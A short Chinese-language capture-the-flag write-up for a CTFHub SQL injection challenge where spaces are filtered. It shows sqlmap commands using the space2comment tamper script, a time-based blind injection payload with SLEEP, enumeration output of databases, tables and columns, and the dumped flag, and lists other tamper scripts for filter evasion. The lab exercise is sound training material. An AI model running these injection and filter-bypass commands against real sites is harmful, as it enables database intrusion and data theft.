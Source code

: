 ```yaml
---
title: 过滤空格
date: 2024-11-24T03:19:04Z
lastmod: 2024-11-24T04:01:52Z
---
```


# 过滤空格

**第一步** 爆数据库

命令： python sqlmap.py -u "http://challenge-427e4b69b55064d9.sandbox.ctfhub.com:10080/?id\=1" --dbs --tamper "space2comment.py"

补充：

脚本名： space2comment.py

作用：**Replaces space character  ' '  with comments   /**/**

也就是用注释/\*\*/替换空格字符' '

 sqlmap 中的 tamper 脚本有很多，例如： equaltolike.py （作用是用like代替等号）、 apostrophemask.py （作用是用utf8代替引号）、 greatest.py （作用是绕过过滤'\>' ,用GREATEST替换大于号）等。

```shell
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9677 FROM (SELECT(SLEEP(5)))ZfwJ)
---
```

```shell
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli

```

```shell
Database: sqli
[2 tables]
+------------+
| braoolkycm |
| news       |
+------------+

```

```shell
Database: sqli
Table: braoolkycm
[1 column]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| inybzfejkt | varchar(100) |
+------------+--------------+
```

```shell
sqlmap -u http://challenge-3de719b11fcb3158.sandbox.ctfhub.com:10800/?id=1 --tamper "space2comment.py" -D sqli -T braoolkycm -C inybzfejkt --dump --thread 10
```

--thread多线程

```shell
Database: sqli
Table: braoolkycm
[1 entry]
+----------------------------------+
| inybzfejkt                       |
+----------------------------------+
| ctfhub{0691522132f19a6c0aeff1d7} |
+----------------------------------+
```
